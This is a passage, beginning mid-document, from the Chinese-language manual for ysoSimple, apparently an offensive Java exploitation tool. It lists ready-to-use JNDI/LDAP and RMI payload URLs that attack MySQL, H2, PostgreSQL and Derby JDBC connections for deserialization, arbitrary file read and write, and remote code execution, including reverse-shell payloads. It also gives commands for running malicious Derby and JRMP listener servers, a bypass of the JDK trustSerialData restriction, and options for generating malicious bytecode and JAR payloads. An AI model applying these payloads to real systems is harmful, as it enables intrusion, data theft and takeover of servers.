* 5.1.11-5.1.48：​statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor
* 6.0.2-6.0.6：statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor
* 8.0.7-8.0.19：​queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor

工具：

```python
# ServerStatusDiffInterceptor
# 5.1.11-5.1.48
ldap://127.0.0.1:1389/Factory/MySQL/Deserialize2/127.0.0.1/3306/root

# 6.0.2-6.0.6
ldap://127.0.0.1:1389/Factory/MySQL/Deserialize3/127.0.0.1/3306/root

# 8.0.7-8.0.19
ldap://127.0.0.1:1389/Factory/MySQL/Deserialize4/127.0.0.1/3306/root
```

##### ReadFile

描述：[https://dev.mysql.com/doc/refman/8.0/en/load-data-local-security.html](https://dev.mysql.com/doc/refman/8.0/en/load-data-local-security.html)。在mysql文档中的说到，服务端可以要求客户端读取有可读权限的任何文件。适用于mysql-connector-java全版本。关于Mysql连接读文件的原理可以参考：[MySQL任意文件读取](https://xz.aliyun.com/t/12011)。

工具：FileRead后面依次跟ip端口和连接名

```python
# 全版本
ldap://127.0.0.1:1389/Factory/MySQL/FileRead/127.0.0.1/3306/root
```

#### H2 DataBase

描述：H2 DataBase支持内存数据库所以不需要单独开启数据库服务器，通过H2 JDBC URL的INIT参数执行SQL语句

* H2数据jdbc连接有三种利用方式 RCE: CREATE ALIAS + Java/Groovy, CREATE TRIGGER + JavaScript，当然还有远程加载sql文件来RCE

##### CREATE ALIAS

描述：H2 Create Alias打法可以执行Java代码

工具：工具引用JdbcAttack模块的H2CreateAlias链进行漏洞利用

```python
# CREATE ALIAS + Java
ldap://127.0.0.1:1389/Factory/H2CreateAlias/sleep/5
ldap://127.0.0.1:1389/Factory/H2CreateAlias/auto_cmd/calc

#反弹Shell
ldap://127.0.0.1:1389/Factory/H2CreateAlias/reverse_shell/127.0.0.1:2333

# 加载一个字节码只能打多次
ldap://127.0.0.1:1389/Factory/H2CreateAlias/unsafe_defineAnonymousClass/class_file:<class_file_path>
ldap://127.0.0.1:1389/Factory/H2CreateAlias/unsafe_defineanonymousclass/Y2xhc3NfZmlsZTovdG1wL1QzNjMwNDU2MTU1MTAwLmNsYXNz
# 加载一个字节码只能打一次
ldap://127.0.0.1:1389/Factory/H2CreateAlias/classloader_defineclass/class_file:<class_file_path>
ldap://127.0.0.1:1389/Factory/H2CreateAlias/classloader_defineclass/Y2xhc3NfZmlsZTovdG1wL1QzNjMwNDU2MTU1MTAwLmNsYXNz
```

##### CREATE ALIAS + Groovy

描述：H2 Create Alias + Groovy打法可以执行Groovy表达式

工具：工具引用JdbcAttack模块的H2Groovy链进行漏洞利用

```python
# CREATE ALIAS + Java
ldap://127.0.0.1:1389/Factory/H2Groovy/sleep/5
ldap://127.0.0.1:1389/Factory/H2Groovy/auto_cmd/calc

# 加载一个字节码只能打多次
ldap://127.0.0.1:1389/Factory/H2Groovy/class_file/class_file:<class_file_path>
ldap://127.0.0.1:1389/Factory/H2Groovy/class_file/Y2xhc3NfZmlsZTovdG1wL1QzNjMwNDU2MTU1MTAwLmNsYXNz
```

##### CREATE TRIGGER + JavaScript

描述：H2 Create Alias + JavaScript打法可以执行JavaScript表达式

工具：工具引用JdbcAttack模块的H2JavaScript链进行漏洞利用

```python
# CREATE ALIAS + Groovy
ldap://127.0.0.1:1389/Factory/H2JavaScript/sleep/5
ldap://127.0.0.1:1389/Factory/H2JavaScript/auto_cmd/calc

ldap://127.0.0.1:1389/Factory/H2JavaScript/class_file/class_file:<class_file_path>
ldap://127.0.0.1:1389/Factory/H2JavaScript/class_file/Y2xhc3NfZmlsZTovdG1wL1QzNjMwNDU2MTU1MTAwLmNsYXNz
```

#### PostgreSQL

描述：PostgreSQL与其它数据库的JDBC Driver相同，PostgreSQL JDBC Driver也支持很多property，通过PostgreSQL的连接有俩种漏洞利用方式。关于这部分可以学习pyn3rd师傅的[Make JDBC Attacks Brilliant Again 番外篇](https://tttang.com/archive/1462/)文章

1. socketFactory和socketFactoryArg属性，也可以使用sslFactory/sslFactoryArg。利用效果为实例化类

    * 影响范围：REL9.4.1208 <= PostgreSQL <42.2.25，42.3.0 <= PostgreSQL < 42.3.2
2. loggerLevel/loggerFile属性。利用效果为：

    * 影响范围：42.1.0 <= PostgreSQL <42.3.3

工具：使用方式如下

##### socketFactory/socketFactoryArg

描述：socketFactory+socketFactoryArg配置可以实例化一个类，要求该类构造方法只有一个参数且是String类型。ClassPathXmlApplicationContext和FileOutputStream就是很好的辅助类，ClassPathXmlApplicationContext可以远程加载文件执行SPEL表达式，FileOutputStream可以创建空文件

工具：使用方式如下

```python
# PostgreSQL ClassPathXmlApplicationContext打ProcessBuilder.start命令执行
ldap://127.0.0.1:1389/Factory/PostgreSQL/Command/calc
ldap://127.0.0.1:1389/Factory/PostgreSQL/Command/Y2FsYw==

# PostgreSQL ClassPathXmlApplicationContext打SPEL自定义代码执行
ldap://127.0.0.1:1389/Factory/PostgreSQL/SPEL/sleep/5
ldap://127.0.0.1:1389/Factory/PostgreSQL/SPEL/auto_cmd/calc

# 加载一个字节码只能打多次
ldap://127.0.0.1:1389/Factory/PostgreSQL/SPEL/unsafe_defineAnonymousClass/class_file:<class_file_path>
ldap://127.0.0.1:1389/Factory/PostgreSQL/SPEL/unsafe_defineanonymousclass/Y2xhc3NfZmlsZTovdG1wL1QzNjMwNDU2MTU1MTAwLmNsYXNz

# 加载一个字节码只能打一次,classloader_defineclass有bug暂时没有适配,有时间再研究,但是classloader_defineclass在H2CreateAlias场景下没问题
ldap://127.0.0.1:1389/Factory/PostgreSQL/SPEL/classloader_defineclass/class_file:<class_file_path>
ldap://127.0.0.1:1389/Factory/PostgreSQL/SPEL/classloader_defineclass/Y2xhc3NfZmlsZTovdG1wL1QzNjMwNDU2MTU1MTAwLmNsYXNz

# PostgreSQL FileOutputStream创建空文件(URL编码)
ldap://127.0.0.1:1389/Factory/PostgreSQL/FileOutputStream/{filename}
```

##### loggerLevel/loggerFile

描述：PostgreSQL的loggerLevel属性会向指定路径写入文件

工具：如下连接串ysoSimple会读取{path}文件内容，最后漏洞利用时PostgreSQL会将该文件内容写在目标系统的{filepath}指定的文件中

```python
# PostgreSQL loggerfile任意写文件
ldap://127.0.0.1:1389/Factory/PostgreSQL/LoggerFile/{filepath}/{path}

ldap://127.0.0.1:1389/Factory/PostgreSQL/LoggerFile/D:\\source\\sour.txt//tmp/dest.txt
ldap://127.0.0.1:1389/Factory/PostgreSQL/LoggerFile/RDpcXHNvdXJjZVxcc291ci50eHQ=/L3RtcC9kZXN0LnR4dA==
```

#### Derby

##### Derby SQL RCE

描述：因为Derby数据库也支持内存数据库，所以可以使用 `jdbc:derby:memory:<database>`​ 形式的 JDBC URL 以在内存中创建数据库。尽量避免多次Create数据库，每次使用完都Drop数据库释放内存。关于Derby的漏洞利用是通过执行SQL语句来RCE。跟着大师傅们的学习，总共有三种RCE的方式：

* 直接加载java字节码RCE：[https://t.zsxq.com/DnaDf](https://t.zsxq.com/DnaDf)
* 远程加载jar包：[derby数据库如何实现RCE](http://www.lvyyevd.cn/archives/derby-shu-ju-ku-ru-he-shi-xian-rce)
* 落地jar包加载：[https://t.zsxq.com/nFGsQ](https://t.zsxq.com/nFGsQ)

这三种利用方式都涉及到多条SQL语句执行。有的数据库连接池支持一次性支持多条SQL语句，有的一次只能执行一条SQL语句。HikariCP 的 connectionInitSql 参数一次性只能执行一条 SQL 语句，所以漏洞利用方式得分开写。TomcatJDBC 的 DataSourceFactory 中的 initSql 参数一次性也只能一条 SQL 语句。Druid DataSourceFactory 之类的Factory中 initConnectionSqls 参数支持一次性执行多个SQL语句，所以只用一次就成。

###### 直接加载Java字节码

**Druid DataSourceFactory**

```python
# 1. 通过SQL语句直接执行字节码进行漏洞利用(携带create=true参数自动创建数据库)
ldap://127.0.0.1:1389/Druid/Derby/Inject/{database}/{explot}/{impact}
ldap://127.0.0.1:1389/Druid/Derby/Inject/Evil/auto_cmd/calc
# 2. 删除数据库以释放内存
ldap://127.0.0.1:1389/Druid/Derby/Drop/<database>
ldap://127.0.0.1:1389/Druid/Derby/Drop/Evil
```

**HikariCP/TomcatJDBC**

因为HikariCP和TomcatJDBC连接池一次只能执行一条sql，所以需要连续jndi注入。下面的TypeClass，TypeObject，TypeClassLoader，FunBase64，FunClassLoader，FunDefineClass，CreateTable可以放到Yakit中来Fuzz。以 TomcatJDBC 来举例：

```python
# 安装数据库
ldap://127.0.0.1:1389/TomcatJDBC/Derby/Inject/Single/Evil/auto_cmd/calc

# 创建Type和Function
ldap://127.0.0.1:1389/TomcatJDBC/Derby/Inject/SingleSQL/Evil/TypeClass
TypeClass
TypeObject
TypeClassLoader
FunBase64
FunClassLoader
FunDefineClass
CreateTable

# 触发Insert语句,也就是触发漏洞利用效果
ldap://127.0.0.1:1389/TomcatJDBC/Derby/Inject/SingleSQL/Evil/Insert

# 删除数据库
ldap://127.0.0.1:1389/TomcatJDBC/Derby/Drop/Evil
```

###### 远程加载jar包

**Druid DataSourceFactory**

```python
# 1. 通过远程加载Jar包进行漏洞利用(携带create=true参数自动创建数据库)
ldap://127.0.0.1:1389/Druid/Derby/Install/Remote/{database}/{explot}/{impact}
ldap://127.0.0.1:1389/Druid/Derby/Install/Remote/Evil/auto_cmd/calc
# 2. 删除数据库以释放内存
ldap://127.0.0.1:1389/Druid/Derby/Drop/<database>
ldap://127.0.0.1:1389/Druid/Derby/Drop/Evil
```

**HikariCP/TomcatJDBC**

因为HikariCP和TomcatJDBC连接池一次只能执行一条sql，所以需要连续jndi注入。下面的AddClassPath和CreateProcedure可以放到Yakit中来Fuzz。以 TomcatJDBC 来举例：

```python
# 安装数据库
ldap://127.0.0.1:1389/TomcatJDBC/Derby/Install/Remote/Single/Evil/auto_cmd/calc

# 添加ClassPath和创建Procedure
ldap://127.0.0.1:1389/TomcatJDBC/Derby/Install/Remote/SingleSQL/Evil/AddClassPath
ldap://127.0.0.1:1389/TomcatJDBC/Derby/Install/Remote/SingleSQL/Evil/CreateProcedure

# 触发Procedure,也就是触发漏洞利用效果
ldap://127.0.0.1:1389/TomcatJDBC/Derby/Install/Remote/SingleSQL/Evil/CallProcedure

# 删除数据库
ldap://127.0.0.1:1389/TomcatJDBC/Derby/Drop/Evil
```

###### 落地jar包然后加载(未集成)

留坑：[https://t.zsxq.com/nFGsQ](https://t.zsxq.com/nFGsQ)

##### 主从复制Slave

Derby连接打主从复制Slave触发Java反序列化，尽量避免多次Create数据库，每次漏洞利用完都Drop数据库释放内存。

```python
# 1.创建内存数据库
ldap://127.0.0.1:1389/Factory/Derby/Create/<database>

# 2.启动恶意Derby Server
java -cp ysoSimple.jar cn.butler.jndi.server.DerbyServer -g "CommonsCollections6" -a "raw_cmd:calc"

# 3.指定 Slave 信息, ip:port即为上面DerbyServer的地址, database即为上面创建的数据库名称
ldap://127.0.0.1:1389/Factory/Derby/Slave/<ip>/<port>/<database>

# 4.删除数据库以释放内存
ldap://127.0.0.1:1389/Factory/Derby/Drop/<database>
```

启动内置的恶意 Derby Server

```bash
Usage: java -cp ysoSimple.jar cn.butler.jndi.server.DerbyServer [-p <port>] [-g <gadget>] [-a <payload>] [-h]
```

`-p`: Derby Server 监听端口, 默认为 `4851`​

`-g`: 指定 Gadget, 如 `CommonsCollections6`​

`-a`: 指定利用链的payload，如`raw_cmd:calc`​

`-h`: 获取使用方式

### ldap-Deserialize打法

描述：LDAP反序列化的攻击流程先让受害者的JNDI服务访问恶意LDAP服务器，然后LDAP服务器返回恶意的序列化数据，受害者反序列化二进制流完成攻击。该LDAP反序列化受限制于isSerialDataAllowed方法，也就是系统属性`com.sun.jndi.ldap.object.trustSerialData`​，在jdk20+开始该属性默认值为true。但jdk20+之后可以通过构造javaFactory属性打本地工厂类继续攻击。

限制：受限制于`com.sun.jndi.ldap.object.trustSerialData`​属性

工具：支持使用YsoAttack中的利用链进行攻击，Deserialize后的第一个路径为Gadget利用链，第二个路径为利用链的arg参数

```python
ldap://127.0.0.1:1389/Deserialize/CommonsBeanutils2/Templateslmpl:auto_cmd:calc

ldap://127.0.0.1:1389/Deserialize/FindGadgetByDNS/g11ksb.dnslog.cn
```

### ldap-useReferenceOnly打法(对抗trustSerialData属性)

描述：对于LDAP协议的JNDI注入, 如果利用本地ObjectFactory绕过, 目前已有的方法是将LDAP协议返回的javaSerializedData属性设置为 Reference 对象的序列化数据。但是自 JDK 21 开始 `com.sun.jndi.ldap.object.trustSerialData`​ 参数默认为 false, 即无法通过 javaSerializedData 属性设置 Reference 对象，LDAP打反序列化和LDAP打本地工厂类都失效。但是可通过的 LDAP 的 javaReferenceAddress 属性使得服务端直接返回 Reference 对象, 因为不涉及 javaSerializedData 属性, 所以也绕过了 trustSerialData 参数的限制

```java
public void processSearchResult(InMemoryInterceptedSearchResult searchResult) {
    // ......

    Reference ref = (Reference) result;
    e.addAttribute("objectClass", "javaNamingReference");
    e.addAttribute("javaClassName", ref.getClassName());
    e.addAttribute("javaFactory", ref.getFactoryClassName());

    Enumeration<RefAddr> enumeration = ref.getAll();
    int posn = 0;

    while (enumeration.hasMoreElements()) {
        StringRefAddr addr = (StringRefAddr) enumeration.nextElement();
        e.addAttribute("javaReferenceAddress", "#" + posn + "#" + addr.getType() + "#" + addr.getContent());
        posn ++;
    }

    // ......
}
```

工具：使用时指定 `-useReferenceOnly`​ 参数即可让LDAP服务使用 javaReferenceAddress 直接返回Reference对象

```python
-m JNDIAttack -jndi-useReferenceOnly
```

### RMI-JRMPListener打法

描述：这个是和[1ue](https://vidar-team.feishu.cn/docx/ScXKd2ISEo8dL6xt5imcQbLInGc)师傅学习的，属于RMI中的JRMP攻击手法因为是JRMP层的攻击，所以不会受到jep290限制。我本地测试的jdk8u65，jdk8u381，jdk17u8都可以打通。直接开启JRMPListener作为服务端

工具：使用方式

1. JRMPListener开启RMI服务端监听：

```java
java -cp ysoSimple.jar cn.butler.yso.exploit.JRMPListener 1234 Jackson "Templateslmpl:sleep:10"
```

RMI Payload：

```python
rmi://127.0.0.1:1234/Basic
```

## 9.字节码生成(​ThirdPartyAttack)

很多漏洞利用效果都涉及到字节码执行，ysoSimple工具提供字节码生成模块

### 额外的参数

字节码生成支持如下额外的参数：

* superClassName：为生成的字节码设置父类
* interfaceName：为生成的字节码设置实现类
* classModify：JavaWrapper，对生成的字节码做特殊的修饰

  * JavaWrapper：将字节码的功能放到JavaWrapper#_main方法中，Hessian反序列化利用链BCEL需要
* encode：Hex，Base64，BCEL编码，JS-JavaCode模板，SPEL-JSCode模板

  * JS-JavaCode：JS执行Java代码
  * SPEL-JSCode-JavaCode：SPEL使用JS表达式执行Java代码
  * GroovyShell-JSCode-JavaCode：GroovyShell使用JS表达式执行Java代码，JS表达式使用Unsafe调用Java代码模式才能在Groovy中执行成功
* fileModify：将生成的字节码转存特殊的文件格式中，XSTL文件转存

  * XSTL：将字节码放入XSTL文件中方便使用，Hessian反序列化利用链XSTL需要
  * ClassPathXml：将字节码放入xml文件中方便使用，ClassPathXmlApplicationContext实例化RCE需要
* jarPayload：ScriptEngineFactory，CommonJar

  * ScriptEngineFactory的SPI类型Jar包输出，内部执行Java代码
  * JSVGJar的JSVGCanvas类型Jar包输出，内部执行Java代码
  * CommonJar一般类型的Jar包输出，内部执行Java代码
* writeToFile：写入到文件中

#### superClassName 为字节码设置父类

描述：对生成的字节码类进行修饰，有些漏洞利用需要继承父类，如：TemplatesImpl加载的字节码类需要继承AbstractTranslet

工具：使用superCLassName参数，后面跟着全限定类名

```python
-m ThirdPartyAttack -g CustomClass -a "auto_cmd:calc" -superClassName "com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet"
```

#### interfaceName 为字节码设置实现类

描述：对生成的字节码类进行修饰，有些漏洞利用执行的字节码需要实现某些接口

工具：使用interfaceName参数，后面的参数值跟着全限定接口名

```python
-m ThirdPartyAttack -g CustomClass -a "auto_cmd:calc" -interfaceName "javax.script.ScriptEngineFactory"
```

#### classModify 字节码修改

描述：对生成的字节码类进行修饰，目前工具仅支持JavaWrapper，该参数会将字节码的功能放到JavaWrapper#_main方法中

工具：使用classModify参数，后面的参数值跟着JavaWrapper

```python
-m ThirdPartyAttack -g CustomClass -a "auto_cmd:calc" -classModify "JavaWrapper"
```

#### encode 字节码输出格式

描述：将生成的字节码进行编码输出，Hex，Base64，BCEL编码。或者套用JS-JavaCode模板，SPEL-JSCode模板

工具：使用encode参数，后面跟着Base64，Hex，BCEL，JS-JavaCode，SPEL-JSCode-JavaCode，GroovyShell-JSCode-JavaCode

```python
-m ThirdPartyAttack -g CustomClass -a "auto_cmd:calc" -encode "BCEL"

-m ThirdPartyAttack -g CustomClass -a "auto_cmd:calc" -encode "GroovyShell-JSCode-JavaCode"
```

#### fileModify 转存特殊格式文件

描述：将生成的字节码转存特殊的文件格式中，XSTL文件转存，Hessian反序列化有XSTL文件加载的利用链。ClassPathXml，生成ClassPathXmlApplicationContext解析的XML文件

工具：使用fileModify参数，可以使用writeToFile参数输出到文件

生成XSTL文件

```python
-m ThirdPartyAttack -g CustomClass -a "auto_cmd:calc" -fileModify "XSTL" -writeToFile "/tmp/evil.xstl"
```

生成ClassPathXmlApplicationContext解析的XML文件

```python
-m ThirdPartyAttack -g CustomClass -a "auto_cmd:calc" -fileModify "ClassPathXml" -writeToFile "/tmp/evil.xstl"
```

#### jarPayload Jar包类型Payload输出

描述：有些漏洞利用是远程jar包加载，工具支持ScriptEngineFactory和CommonJar俩种jar包类型输出

工具：使用方式如下：必须带有writeToFile参数，参数值为目录名

生成ScriptEngineFactory类型的jar包

```python
-m ThirdPartyAttack -g CustomClass -a "auto_cmd:calc" -jarPayload "ScriptEngineFactory" -writeToFile "/tmp/"
```

生成类型的jar包

```python
-m ThirdPartyAttack -g CustomClass -a "auto_cmd:calc" -jarPayload "JSVGJar" -writeToFile "/tmp/"
```

#### writeToFile 写入到指定目录中

描述：将生成的字节码写入到指定文件

工具：使用writeToFile参数，后面跟着目录名

```python
-m ThirdPartyAttack -g CustomClass -a "auto_cmd:calc" -encode "BCEL" -writeToFile "/tmp/"
```

### CustomClass生成指定效果字节码

描述：生成指定漏洞利用功能的字节码

工具：args参数跟着漏洞利用参数中的字节码执行漏洞利用效果参数，必须带有writeToFile参数，参数值为目录名。使用方式：

```python
-m ThirdPartyAttack -g CustomClass -a "auto_cmd:calc" -writeToFile "/tmp/"

-m ThirdPartyAttack -g CustomClass -a "reverse_shell:127.0.0.1:2333" -writeToFile "/tmp/"
```

## 漏洞利用参数整理

### CC链的漏洞利用效果参数

工具对CommonsCollections链使用InvokerTransformer执行非TemplatesImpl链的参数：

* [ ] sleep 生成延时payload
* [ ] dnslog 生成dnslog payload
* [ ] httplog 生成httplog payload
* [ ] raw_cmd 原生的命令执行
* [ ] win_cmd 在windows下执行命令
* [ ] linux_cmd 在linux下执行命令
* [ ] bcel 注入bcel字符串，实现代码执行
* [ ] bcel_class_file 通过文件注入
* [ ] bcel_with_args 注入bcel字符串和参数，实现代码执行
* [ ] script_file 通过js引擎执行代码
* [ ] script_base64 通过js引擎执行代码
* [ ] upload_file 上传文件，通过文件名
* [ ] upload_file_base64 上传文件，通过文件base64内容
* [ ] loadjar 调用jar中类的无参构造器
* [ ] loadjar_with_args 调用jar中类的参数为一个String的构造器
* [ ] jndi jndi注入

### 字节码执行的漏洞利用效果参数

工具对字节码执行漏洞利用效果支持的参数：

* [ ] sleep 生成延时payload
* [ ] dnslog 生成dnslog payload
* [ ] httplog 生成httplog payload
* [ ] raw_cmd 原生的命令执行
* [ ] win_cmd 在windows下执行命令
* [ ] linux_cmd 在linux下执行命令
* [ ] class_file 从系统路径中注入class文件，执行class代码
* [ ] class_base64 注入class base64编码内容，执行class代码
* [ ] code_file 注入要执行的代码
* [ ] code_base64 注入要执行代码的base64编码
* [ ] bcel 注入bcel字符串，实现代码执行
* [ ] bcel_class_file 通过文件注入
* [ ] bcel_with_args 注入bcel字符串和参数，实现代码执行
* [ ] script_file 通过js引擎执行代码
* [ ] script_base64 通过js引擎执行代码
* [ ] upload_file 上传文件，通过文件名
* [ ] upload_file_base64 上传文件，通过文件base64内容
* [ ] loadjar 调用jar中类的无参构造器
* [ ] loadjar_with_args 调用jar中类的参数为一个String的构造器
* [ ] jndi jndi注入
* [ ] reverse_shell 反弹Shell
* [ ] system_set_property 设置系统属性
* [ ] system_property_classloader 对系统属性中存放的字节码进行类加载(Shiro分块写马加载使用)
* [ ] shiro_tomcat_loadclass tomcat中间件场景下从请求参数中读取字节码进行加载
* [ ] shiro_spring_loadclass springmvc中间件场景下从请求参数中读取字节码进行加载
* [ ] unsafe_defineanonymousclass 使用unsafe的defineanonymousclas方法对字节码进行加载，字节码从下面俩个参数中读取

  * [ ] class_file 从系统路径中注入class文件，执行class代码
  * [ ] class_base64 注入class base64编码内容，执行class代码
* [ ] classloader_defineclass 使用线程上下文的classloader方法对字节码进行加载，字节码从下面俩个参数中读取

  * [ ] class_file 从系统路径中注入class文件，执行class代码
  * [ ] class_base64 注入class base64编码内容，执行class代码
* [ ] springframework_echo 生成SpringFramework的Runtime命令回显代码

### Java代码漏洞利用效果参数

有些利用链是用Java代码执行来造成漏洞利用的，如H2的Create Alias进行Java代码执行，这种情况执行如下参数：

* [ ] sleep 生成延时payload
* [ ] dnslog 生成dnslog payload
* [ ] httplog 生成httplog payload
* [ ] raw_cmd 原生的命令执行
* [ ] win_cmd 在windows下执行命令
* [ ] linux_cmd 在linux下执行命令
* [ ] bcel 注入bcel字符串，实现代码执行
* [ ] bcel_class_file 通过文件注入
* [ ] bcel_with_args 注入bcel字符串和参数，实现代码执行
* [ ] script_file 通过js引擎执行代码
* [ ] script_base64 通过js引擎执行代码
* [ ] upload_file 上传文件，通过文件名
* [ ] upload_file_base64 上传文件，通过文件base64内容
* [ ] loadjar 调用jar中类的无参构造器
* [ ] loadjar_with_args 调用jar中类的参数为一个String的构造器
* [ ] jndi jndi注入
* [ ] reverse_shell 反弹Shell
* [ ] system_set_property 设置系统属性
* [ ] shiro_spring_loadclass springmvc中间件场景下从请求参数中读取字节码进行加载
* [ ] unsafe_defineanonymousclass 使用unsafe的defineanonymousclas方法对字节码进行加载，字节码从下面俩个参数中读取

  * [ ] class_file 从系统路径中注入class文件，执行class代码
  * [ ] class_base64 注入class base64编码内容，执行class代码
* [ ] classloader_defineclass 使用线程上下文的classloader方法对字节码进行加载，字节码从下面俩个参数中读取

  * [ ] class_file 从系统路径中注入class文件，执行class代码
  * [ ] class_base64 注入class base64编码内容，执行class代码
* [ ] springframework_echo 生成SpringFramework的Runtime命令回显代码

### (一些注意事项)

#### 类加载的事项

unsafe#defineanonymousclass方法加载字节码类时需要注意，JDK版本不同时该方法的差异：

* JDK>8时，defineAnonymousClass做了限制，被加载的Class要满足两个条件之一：

  1. 没有包名
  2. 包名跟第一个参数Class的包名一致，此处为java.lang，否则会报错

      ```java
      byte[] var2 = unsafe.defineAnonymousClass(java.lang.Class.forName("java.lang.Class"), var2 , null)
      ```
* JDK<=8时，无上述限制

所以在使用工具的unsafe_defineanonymousclass时要注意这个情况。classloader_defineclass参数由于采用线程上下文的classloader就没有这个影响，但是有时候该classloader加载的类只能被打一次而unsafe#defineanonymousclass就没有这个情况。所以根据实际情况而选择。

## 工具打包

Requires Java 1.7+ and Maven 3.x+

```bash
mvn clean package -DskipTests
```

‍
